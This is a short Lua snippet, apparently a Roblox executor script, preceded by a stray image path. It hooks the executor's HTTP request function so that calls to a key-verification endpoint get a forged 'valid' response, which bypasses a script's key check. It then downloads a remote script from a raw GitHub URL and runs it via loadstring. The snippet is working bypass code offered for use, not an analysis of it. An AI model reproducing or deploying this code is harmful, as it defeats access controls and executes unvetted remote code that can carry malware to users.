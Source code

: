 local rekeste = http and http.request or syn and syn.request or request

hookfunction(rekeste, function(args)
    if args.Url:find("scriptsbinsauth.vercel.app/api/verify%-key") then
      

        return {
            StatusCode = 200,
            Success = true,
            StatusMessage = "OK",
            Body = game:GetService("HttpService"):JSONEncode({
                valid = true,
                message = "Polengo 🥵"
            }),
            Headers = {}
        }
    end

    return rekeste(args)
end)


task.wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/dadad213/GRANDSCRIPTO/refs/heads/main/script.lua"))()
